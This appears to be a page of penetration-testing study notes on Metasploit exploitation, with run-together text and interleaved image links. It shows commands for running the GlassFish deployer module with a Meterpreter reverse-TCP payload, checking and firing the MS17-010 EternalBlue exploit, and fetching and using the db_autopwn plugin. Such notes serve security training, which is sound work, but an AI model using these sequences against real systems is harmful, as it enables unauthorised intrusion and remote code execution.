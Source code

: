 * Manually search for a specific exploit
  * Check if there are any exploits for a particular **version** of a service

search type:exploit name:iis![](https://2946054920-files.gitbook.io/\~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-375c51ac9321889fd7f66157154bed2363465c80%2Fimage-20230413192845621.png?alt=media)search type:exploit name:iissearch Sun GlassFish

* Check if a module will work on the specific version of the service

use exploit/multi/http/glassfish\_deployerinfo​# Description:# This module logs in to a GlassFish Server (Open Source or# Commercial) using various methods (such as authentication bypass,# default credentials, or user-supplied login), and deploys a# malicious war file in order to get remote code execution. It has# been tested on Glassfish 2.x, 3.0, 4.0 and Sun Java System# Application Server 9.x. Newer GlassFish versions do not allow remote# access (Secure Admin) by default, but is required for exploitation.set payload windows/meterpreter/reverse\_tcpoptions# check the LHOST, LPORT, APP\_RPORT, RPORT, PAYLOAD options

* Use [searchsploit](https://www.exploit-db.com/searchsploit) tool from the Kali terminal, instead of `search MSF command`, by displaying only the Metasploit exploit modules

searchsploit "Microsoft Windows SMB" | grep -e "Metasploit"![](https://2946054920-files.gitbook.io/\~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-ccd61dd756b19c9fe6732fd4bc6df233f08f8c9a%2Fimage-20230413194606641.png?alt=media)

* Back in `msfconsole`, check if the server is vulnerable to MS17-010

search eternalblueuse auxiliary/scanner/smb/smb\_ms17\_010run![](https://2946054920-files.gitbook.io/\~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-e9399a0e6c8efc589338f07390d7ad79f5433cf8%2Fimage-20230413200558380.png?alt=media)use exploit/windows/smb/ms17\_010\_eternalblueoptions# always check Payload optionsrun

> ​[**metasploit-autopwn**](https://github.com/hahwul/metasploit-autopwn) - a Metasploit plugin for easy exploit & vulnerability attack.
>
> * _takes a look at the Metasploit database and provides a list of exploit modules to use for the already enumerated services_

* On a Kali terminal

wget https://raw.githubusercontent.com/hahwul/metasploit-autopwn/master/db\_autopwn.rbsudo mv db\_autopwn.rb /usr/share/metasploit-framework/plugins/

* On `msfconsole`

load db\_autopwndb\_autopwn -p -t# Enumerates exploits for each of the open portsdb\_autopwn -p -t -PI 445# Limit to only the 445 port![](https://2946054920-files.gitbook.io/\~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-aebfca43b742e41d758e63a2e3e6b0cdbc355643%2Fimage-20230413202435550.png?alt=media)db\_autopwn -p -t -PI 445

* On `msfconsole` use the **`analyze`** command to auto analyze the contents of the MSFdb (hosts & services)

analyze![](https://2946054920-files.gitbook.io/\~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-f2413c550b79a3a1148a63bdb63d63dc5778b675%2Fimage-20230413202708057.png?alt=media)analyzevulns![](https://2946054920-files.gitbook.io/\~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-ceda763cca80af814cb9304c543bd68cb4bb61f3%2Fimage-20230413202802181.png?alt=media)vulns
